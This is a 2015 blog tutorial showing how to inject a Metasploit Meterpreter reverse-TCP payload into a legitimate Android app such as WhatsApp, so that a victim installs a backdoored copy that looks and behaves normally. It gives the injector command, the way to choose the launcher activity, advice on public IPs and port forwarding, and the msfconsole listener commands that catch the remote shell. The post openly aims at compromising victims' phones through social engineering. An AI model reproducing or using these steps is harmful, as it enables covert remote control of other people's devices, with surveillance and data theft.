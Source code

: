 ```yaml
---
layout: post
date: 'Sat Dec 12 2015 02:30:19 GMT+0530 (India Standard Time)'
slug: embed-metasploit-payload-in-apk-easily
title: Embed a Metasploit Payload in an Original .apk File | Part 1 - The Easy Way
wordpress_id: 13
categories:
  - Android
  - Hacking
  - Metasploit
tags:
  - Android
  - Hacking
  - Kali
  - Metasploit
  - Meterpreter
published: true
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in the kingdom of hacking, have heard of Metasploit. Don’t be disappointed if you haven’t, because you’re in the right track.

From Wikipedia,

> The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.


In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the ‘Meterpreter’, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is, it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means (usually involving Social Engineering), and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak havoc on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.


### Pre-requisites

Just to be clear,  In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing (read, hacking). You should also install the latest version of ‘ApkTool’ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console:
```console
apt-get install lib32stdc++6 lib32ncurses5 lib32z1
```

And to get the latest version of ApkTool, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.


### Step 1

First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a WhatApp.apk as example.

### Step 2

Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.

### Step 3

Open a terminal, and type the following command:
```console
ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895
```

In this example I’ve used `192.168.0.104` as the Local IP address, i.e. your IP address and `4895` as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the LPORT can be set to any reasonable port no.

_NOTE_ – If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the LHOST option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to /root/original.

Then open the `AndroidManifest.xml` file using any text editor you like and look for an <activity> tag which contains both the texts ‘.MAIN’ and ‘.LAUNCHER’. When you find that tag, look for the ‘android:name’ attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](/img/posts/screenshot-from-2015-12-12-01-44-01.png)
![Screenshot from 2015-12-12 01-43-27](/img/posts/screenshot-from-2015-12-12-01-43-27.png)


### PROFIT?!

If you did everything correctly, you should now get a apk file in your root directory with the name ‘backdoored_WhatsApp.apk’. It will install and run just like the original app.

As for the listener, you should use multi/handler and set the corresponding options accordingly. Just run the following commands.

```console
msfconsole
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.0.104
set LPORT 4895
exploit
```

Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](/img/posts/screenshot-from-2015-12-18-143255.png)


### Note:

You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.

### Credits:

I found the script from the comments section of a thread in NullByte, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to timwr and Jack64.

